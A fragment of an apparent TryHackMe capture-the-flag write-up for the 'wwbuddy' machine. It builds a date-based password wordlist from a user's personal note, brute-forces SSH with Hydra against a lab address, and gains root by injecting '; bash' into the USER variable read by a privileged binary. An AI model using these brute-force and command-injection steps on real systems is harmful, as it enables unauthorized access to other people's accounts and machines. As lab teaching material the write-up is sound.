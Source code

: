 ```

Do not forget that next week she turns 26, when she sees the gift I bought for her, maybe she even encourages to go on a date with me.
```

```
$ id 
uid=1001(roberto) gid=1001(roberto) groups=1001(roberto),200(developer)
$ ls -la importante.txt
-rw-rw-r-- 1 roberto roberto 246 Jul 27 21:25 importante.txt
```
Jul have 31 days. 3rd agut -> 3/8/1994. let make a wordlist
```
03081994
19940803
08031994
03-08-1994
1994-08-03
08-03-1994
03/08/1994
1994/08/03
08/03/1994
```

```console
bibo318@parrot:~/THM/wwbuddy$ nano pass.txt # word list
bibo318@parrot:~/THM/wwbuddy$ hydra -f -l jenny -P pass.txt -t 64 10.10.66.120 ssh
Hydra v9.1-dev (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-14 16:15:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:1/p:9), ~1 try per task
[DATA] attacking ssh://10.10.66.120:22/
[22][ssh] host: 10.10.66.120   login: jenny   password: [somethinghere]
```

```
$ bash
jenny@wwbuddy:~$ echo $USER
jenny
jenny@wwbuddy:~$ export USER="jenny; bash"
jenny@wwbuddy:~$ echo $USER
jenny; bash
jenny@wwbuddy:~$ authenticate
root@wwbuddy:~# cat /root/root.txt
```